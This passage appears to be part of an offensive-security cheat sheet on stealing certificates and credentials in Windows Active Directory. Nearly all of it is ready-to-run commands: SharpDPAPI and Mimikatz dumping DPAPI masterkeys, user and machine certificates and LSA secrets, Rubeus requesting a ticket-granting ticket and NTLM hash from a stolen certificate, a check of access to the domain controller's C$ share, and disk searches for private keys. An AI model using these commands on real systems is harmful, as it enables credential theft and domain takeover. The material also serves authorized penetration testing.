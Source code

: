 #### SharpDPAPI Dump certificates using password
- And sessions as user
```
.\SharpDPAPI.exe certificates /password:<PASSWORD>
```

#### Mimikatz Dump in users context
```
dpapi::masterkey /in:"<PATH TO KEY>" /rpc
```

#### Mimikatz Dump using the password
```
dpapi::masterkey /in:"<PATH TO KEY>" /sid:<USER SID> /password:<PASSWORD>
```

#### SharpDPAPI decrypt masterkeys using domain backup key
- https://github.com/GhostPack/SharpDPAPI#certificates
```
.\SharpDPAPI.exe certificates /pvk:<KEY>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

#### Check access
```
dir \\<FQDN DC>\c$
```

### THEFT3 Machine Certificate DPAPI
#### SharpDPAPI Dump machine certificates
```
.\SharpDPAPI.exe certificates /machine
```

#### Mimikatz Dump machine certificates
```
lsadump::secrets
crypto::certificates /export /systemstore:LOCAL_MACHINE
```

### THEFT4 Certificates on disk
#### Locate certificates and private key on disk
```
dir C:\*.pfx C:\*.pem C:\*.p12 C:\*.crt C:\*.cer C:\*.p7b C:\*.ovpn /s /b

Get-ChildItem C:\ -include ('*.pem', '*.pfx', '*.p12', '*.crt', '*.cer', '*.key', '*.ovpn') -recurse -erroraction 'silentlycontinue'
```
